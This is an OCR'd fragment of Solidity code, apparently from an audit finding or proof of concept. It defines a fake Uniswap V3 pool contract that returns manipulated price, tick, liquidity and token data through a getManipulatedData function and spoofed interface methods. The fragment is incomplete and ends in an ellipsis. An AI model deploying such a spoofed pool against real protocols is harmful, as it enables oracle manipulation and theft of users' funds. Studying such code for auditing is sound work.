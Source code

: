 ```solidity
    uint32 public fakeObservationTimestamp = uint32(block.timestamp - 1);
    uint8 public fakeFeeProtocol = 0;
    uint128 public fakeLiquidity = 1;

    // Other required state variables
    int56 public fakeTickCumulative = 0;
    uint160 public fakeSecondsPerLiquidityX128 = 0;
    bool public fakeInitialized = true;

function getManipulatedData()
    external
    view
    returns (
        uint160 _fakeSqrtPriceX96,
        int24 _fakeCurrentTick,
        uint16 _fakeObservationIndex,
        uint16 _fakeObservationCardinality,
        uint32 _fakeObservationTimestamp,
        uint8 _fakeFeeProtocol,
        uint128 _fakeLiquidity,
        int56 _fakeTickCumulative,
        uint160 _fakeSecondsPerLiquidityX128
    )
{
    return (
        fakeSqrtPriceX96,
        fakeCurrentTick,
        fakeObservationIndex,
        fakeObservationCardinality,
        fakeObservationTimestamp,
        fakeFeeProtocol,
        fakeLiquidity,
        fakeTickCumulative,
        fakeSecondsPerLiquidityX128
    );
}
    // Implementing IUniswapV3PoolImmutables
    function factory() external view override returns (address) {
        return address(this); // returning address of this contract (or any other address)
    }

    function token0() external view override returns (address) {
        return fakeToken0;
    }

    function token1() external view override returns (address) {
        return fakeToken1;
    }

    function fee() external view override returns (uint24) {
        return fakeFee;
    }

    function tickSpacing() external view override returns (int24) {
        return fakeTickSpacing;
    }

    function maxLiquidityPerTick() external view override returns (uint128) {
        return fakeMaxLiquidityPerTick;
    }

    // Implementing other interfaces with fake or malicious data
    // ...
```